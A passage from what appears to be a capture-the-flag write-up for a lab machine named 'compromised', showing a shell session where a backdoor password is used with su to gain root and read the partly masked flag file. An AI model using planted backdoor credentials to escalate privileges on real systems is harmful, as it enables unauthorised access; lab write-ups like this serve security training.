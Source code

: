 ### Su to root

We should be able to use the backdoor-password to su to root.

```bash
sysadmin@compromised:~$ su
Password: zlke~U3Env82m2-
root@compromised:/home/sysadmin#
```

We successfully su to root and can now read root.txt.

```bash
root@compromised:~# cat root.txt 
b4477***************************
```
